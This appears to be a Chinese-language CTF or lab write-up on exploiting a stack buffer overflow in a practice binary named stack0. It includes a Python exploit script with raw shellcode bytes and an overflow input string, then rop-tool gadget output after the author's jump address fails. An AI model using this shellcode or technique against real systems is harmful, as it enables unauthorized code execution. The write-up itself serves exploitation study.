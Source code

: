 于是输入链为：

`"a"*80+'\x9b\x59\xff\xf7'+shellcode`

用python代码实现exploit.py：

```
------------exploit.py----------------
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="\x9b\x59\xff\xf7"
#print jmp_esp
input="a"*80+jmp_esp+buf
#print input
os.system("echo '%s' | ./stack0" % input)
---------------end--------------------

```

发现上面算出来的jmp_esp='\x9b\x59\xff\xf7'无法跳转到esp,可能是我的这种理解错了

换工具，[rop-tool](http://www.freebuf.com/sectool/105715.html)

先安装上面链接中说的[capstone](http://www.capstone-engine.org/download/3.0.4/ubuntu-14.04/python-capstone_3.0.4-0.1ubuntu1_amd64.deb)

然后下载[rop-tool](https://t0x0sh.org/rop-tool/releases/2.4/rop-tool-Linux-x86_64)

```
chmod +x rop-tool-Linux-x86_64
mv rop-tool-Linux-x86_64 /usr/bin/rop
rop gadget ./stack0(或者rop gadget -a ./stack0)
------------------output:--------------------
Looking gadgets, please wait...
 0x080482e5 -> add dword ptr [eax], eax; add byte ptr [eax + 0x5b], bl; leave ; ret ; 
 0x080482ca -> ret ; 
 0x08048440 -> push ebp; mov ebp, esp; pop ebp; ret ; 
 0x080483ef -> call eax; leave ; ret ; 
 0x080482e9 -> pop ebx; leave ; ret ; 
 0x080484a7 -> pop edi; pop ebp; ret ; mov ebx, dword ptr [esp]; ret ; 
 0x080482c5 -> add byte ptr [eax], al; add byte ptr [ebx - 0x7f], bl; ret ; 
 0x080484a7 -> pop edi; pop ebp; ret ; 
 0x080484f4 -> pop ecx; pop ebx; leave ; ret ; 
 0x080483b9 -> add eax, 0x8049644; add dword ptr [ebx + 0x5d5b04c4], eax; ret ; 
 0x080484a8 -> pop ebp; ret ; mov ebx, dword ptr [esp]; ret ; 
 0x080483ef -> call eax; 
 0x080484a5 -> pop ebx; pop esi; pop edi; pop ebp; ret ; 
 0x080482ea -> leave ; ret ; 
 0x080483c3 -> pop ebp; ret ; 
 0x080483c2 -> pop ebx; pop ebp; ret ; 
 0x080482e6 -> add byte ptr [eax], al; pop eax; pop ebx; leave ; ret ; 
 0x080482e7 -> add byte ptr [eax + 0x5b], bl; leave ; ret ; 
 0x080482e8 -> pop eax; pop ebx; leave ; ret ; 
 0x080484aa -> mov ebx, dword ptr [esp]; ret ; 
 0x080482c7 -> add byte ptr [ebx - 0x7f], bl; ret ; 
 0x080484a9 -> ret ; mov ebx, dword ptr [esp]; ret ; 
 0x080483be -> add dword ptr [ebx + 0x5d5b04c4], eax; ret ; 
 0x08048432 -> dec ecx; ret ; 
```